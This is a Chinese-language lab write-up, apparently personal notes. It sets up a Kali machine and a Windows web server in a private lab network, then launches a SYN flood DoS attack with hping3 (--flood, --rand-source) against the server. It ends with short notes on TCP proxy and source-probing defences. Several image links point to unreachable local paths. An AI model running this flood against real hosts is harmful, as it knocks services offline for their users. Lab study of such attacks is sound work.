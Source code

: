 实验：

- 环境：

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230812185458197.png" alt="image-20230812185458197" style="zoom:200%;" />

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230812192945392.png" alt="image-20230812192945392" style="zoom:200%;" />

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230812193007499.png" alt="image-20230812193007499" style="zoom:200%;" />

进入kali之后如图操作

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230812193104682.png" alt="image-20230812193104682" style="zoom:200%;" />

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230812194811142.png" alt="image-20230812194811142" style="zoom:200%;" />

```
service apache2 start
vim /etc/network/interface
```

```
auto lo
iface lo inet loopback

auto eth0
iface eth0 inet static
address 192.168.1.50
netmask 255.255.255.0
gateway 192.168.1.254
```

然后重启一下网卡，以下命令：

```
ifdown eth0
ifip eth0
```

查看一下路由表

```
route -n
```

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230812200652561.png" alt="image-20230812200652561" style="zoom:200%;" />

然后进入server

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230812200757073.png" alt="image-20230812200757073" style="zoom:200%;" />

```
netsh interface ip set address "Ethernet0" static 192.168.2.100 255.255.255.0 192.168.2.254
```

服务器搭网站

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230812210323246.png" alt="image-20230812210323246" style="zoom:200%;" />

然后一直下一步安装就好了

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230812210432917.png" alt="image-20230812210432917" style="zoom:200%;" />

可以在这里进来查看

然后就可以开始使用hping3进行DOS攻击

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230812211133751.png" alt="image-20230812211133751" style="zoom:200%;" />

```
hping3 -c 1000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.2.100

#-c  表示每次攻击发送数据包的数量
#-d  表示每个数据包的大小
#-S  只发送SYN的包
#-w  窗口大小
#-p  目标端口
#--flood 执行flood洪水攻击
#--rand-source  表示使用随机IP对服务器及逆行攻击
```

防御方法：

- 使用TCP代理

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230812222549849.png" alt="image-20230812222549849" style="zoom:200%;" />

- TCP源探测

  防火墙会对client发送的SYN请求进行拦截，然后发送一个伪造的SYN和ACK，如果客户机是虚假的源就不会确认，就防止了，但是如果客户机是真实存在的，那么会发现这个伪造的和自己的请求是对不上的，于是那么这个时候就会发送请求重新建立连接RST，然后防火墙也知道说明客户机是真实的，于是就将RST放通，去访问请求服务器
